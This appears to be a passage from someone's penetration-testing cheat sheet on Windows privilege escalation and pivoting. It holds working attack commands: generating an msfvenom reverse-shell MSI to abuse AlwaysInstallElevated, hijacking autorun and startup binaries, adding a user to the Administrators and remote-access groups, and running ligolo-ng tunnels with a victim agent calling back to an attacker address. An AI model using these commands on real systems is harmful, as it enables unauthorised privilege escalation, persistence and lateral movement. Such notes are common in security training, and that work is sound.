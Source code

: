 #### Always Install Elevated - MSI
```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
# if both value set to 1 in AlwaysInstallElevated
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi > reverse.msi
msiexec /quiet /qn /i C:\Temp\setup.msi # to install malicious msi with elevated perms
```

#### AutoRun Program Hijack Or Startup App
```powershell
# AutoRun Program Hijack
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
Autorun64.exe # to check autorun programs and their dir
accesschk64.exe -wvu "C:\Program Files\Autorun Program
# if has the perms to change the binary then replace with the malicious one
# logoff and logon

# Startup Application
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
# if we have permissions then drop in case any admin logs in at the startup it will gonna trigger malicious binary
```
#### Bypass UAC
### Useful commands
```powershell
net localgroup "Remote Desktop Users" /add user  # in case RDP open, PREFERRED
net localgroup "Remote Management Users" /add user  # in case RDP closed and WinRM open

Add-LocalGroupMember -Group Administartors -Member ariah
```
## ⛓ Pivoting Commands

Check this [[Pivoting]]
### Ligolo-ng
```bash
# [[Pivoting#Ligolo-ng]] preferred for setting up internet network route and listener for easier pivoting
sudo ligolo-proxy -selfcert

ifcreate --name "ligolo"

# victim side 
./agent -connect <attackerip>:11601 -ignore-cert

session # seelct
ifconfig # check for the route
route_add --name "ligolo" --route "10.0.2.0/24"
start --tun "ligolo"

# for double pivoting 
listener_add --addr 0.0.0.0:8001 --to 127.0.0.1:8000 --tcp  # to deliver the ligolo binary to another host for double pivot so opening listener on agent
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp # get back the connection of 2nd agent through 1st agent
# for second pivot
ifcreate --name "ligolo-second"
session # seelct
ifconfig # check for the route
route_add --name "ligolo-second" --route "172.10.2.0/24"
start --tun "ligolo-second"

```